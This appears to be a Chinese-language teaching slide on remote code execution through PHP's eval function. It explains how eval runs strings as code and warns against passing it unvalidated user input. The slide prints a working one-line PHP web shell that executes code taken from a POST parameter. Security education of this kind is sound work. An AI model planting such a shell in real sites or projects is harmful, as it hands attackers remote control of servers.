

# 远程代码执行 - eval函数
eval(string $code)
把字符串code作为PHP代码执行
<?php @eval($_POST[‘cmd’]);?>

注意：
eval()函数传入的参数必须为PHP代码，即要以分号结尾
函数eval()语言结构是非常危险的，因为它允许执行任意PHP代码。不要允许传入任何由用户提供的、未经完整验证过的数据。